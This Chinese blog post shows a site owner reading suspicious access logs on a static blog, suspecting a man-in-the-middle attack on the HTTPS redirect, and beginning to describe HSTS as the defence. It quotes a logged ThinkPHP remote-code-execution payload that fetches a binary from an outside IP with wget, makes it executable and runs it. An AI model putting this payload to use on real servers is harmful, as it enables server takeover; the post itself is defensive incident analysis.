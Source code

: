 ```
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /js/preload/example.txt HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.33.237 - - [26/Jul/2020:05:57:09 +0800] "GET /db/admin_yly.sql HTTP/1.1" 301 169 "http://95.179.179.26/db/admin_yly.sql" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.34.226 - - [26/Jul/2020:05:57:09 +0800] "GET /index.php/_login/in HTTP/1.1" 301 169 "http://95.179.179.26/index.php/_login/in" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.35.69 - - [26/Jul/2020:05:57:09 +0800] "GET / HTTP/1.1" 301 169 "http://95.179.179.26/" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.33.185 - - [26/Jul/2020:05:57:09 +0800] "GET /js/preload/example.txt HTTP/1.1" 301 169 "http://95.179.179.26/js/preload/example.txt" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.33.43 - - [26/Jul/2020:05:57:09 +0800] "GET /11.txt HTTP/1.1" 301 169 "http://95.179.179.26/11.txt" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
```

第一条日志就发现问题了，我的博客是个静态页面网站，跟PHP完全没有关系，而且URL后面跟的那一堆明显是攻击的函数。

```
invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.95.168.230/taevimncorufglbzhwxqpdkjs/Meth.x86 -O thinkphp ; chmod 777 thinkphp ; ./thinkphp ThinkPHP ; rm -rf thinkphp'
```

再看后面的日志，都是访问一些不知所云的页面，并且都是`301`重定向，因此我估计在重定向HTTPS的时候出现了问题。

## 追根溯源，锁定凶手

> 中间人攻击（英语：Man-in-the-middle attack，缩写：MITM）在密码学和计算机安全领域中是指攻击者与通讯的两端分别创建独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。在中间人攻击中，攻击者可以拦截通讯双方的通话并插入新的内容。在许多情况下这是很简单的（例如，在一个未加密的Wi-Fi 无线接入点的接受范围内的中间人攻击者，可以将自己作为一个中间人插入这个网络）。
> 一个中间人攻击能成功的前提条件是攻击者能将自己伪装成每一个参与会话的终端，并且不被其他终端识破。中间人攻击是一个（缺乏）相互认证的攻击。大多数的加密协议都专门加入了一些特殊的认证方法以阻止中间人攻击。例如，SSL协议可以验证参与通讯的一方或双方使用的证书是否是由权威的受信任的数字证书认证机构颁发，并且能执行双向身份认证。
> 来自：[维基百科：中间人攻击](https://zh.wikipedia.org/wiki/%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)

中间人攻击是比较常见的网络攻击手段，如果通讯双方缺少有效的认证手段就有可能导致中间人攻击。

一般来说如果网站配置了HTTPS，双方通讯就都是可靠加密了。不过用户习惯很难直接改变，包括我也一样，不会特意去敲上一段`https://`，因此网站一般都会通过重定向HTTP到HTTPS来保证使用HTTPS。

从可见的日志推断，我认为自己的网站最有可能遭受了中间人攻击。

## 御敌于外：配置HSTS
基本确定了凶手之后，就可以查询解决方案。一番查找之后，发现针对中间人攻击，目前主要的方案是采用**HSTS**。
